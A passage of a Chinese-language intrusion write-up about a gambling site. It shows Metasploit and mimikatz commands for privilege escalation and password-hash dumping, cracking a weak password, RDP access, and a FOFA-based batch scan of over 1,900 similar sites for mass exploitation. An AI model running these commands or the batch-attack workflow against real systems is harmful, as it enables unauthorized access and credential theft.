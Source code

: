 [![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170834-4365955e-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170834-4365955e-48ec-1.png)  
最后检查一下是否提权成功

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170854-4f15e4d0-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170854-4f15e4d0-48ec-1.png)

0x05:mimikatz 抓取密码 hash
-----------------------

先提个权

```
getsystem
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170912-59f28e30-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170912-59f28e30-48ec-1.png)

试试能不能直接 dump 出来

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170921-5f750b4e-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170921-5f750b4e-48ec-1.png)  
不行, 只好用 mimikatz 了

```
load mimikatz
```

然后抓取密码哈希

```
mimikatz_command -f samdump::hashes
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228170937-693a5bc0-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228170937-693a5bc0-48ec-1.png)

也可以用 MSF 自带的模块 (这个比 mimikatz 慢一点)

```
run post/windows/gather/smart_hashdump
```

然后丢到 CMD5 解密, 如果是弱口令可以解出账户密码, 这次运气比较好, 是个弱口令, 直接解出了密码, 然后`mstsc.exe`直接连, 成功上桌面

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228171008-7b4a9c30-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228171008-7b4a9c30-48ec-1.png)

0x06: 信息收集扩大攻击范围
----------------

成功获取到目标最高权限之后, 尝试通过信息收集获取其他相类似的站点进行批量化攻击.

@crow 师傅提取了该网站的 CMS 特征写了一个 fofa 脚本批量扫描, 最终得到了 1900 + 个站点

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228171030-88c44992-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228171030-88c44992-48ec-1.png)  
但由于 bc 站往往打一枪换一个地方, 这些域名往往大部分是不可用的, 因此需要再确认域名的存活状态, 使用脚本最终得到了一百多个存活域名

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228171053-95fc12a2-48ec-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228171053-95fc12a2-48ec-1.png)  
在使用脚本批量访问带漏洞的 URL, 把生成的 request 利用多线程脚本批量发起请求去跑这个请求
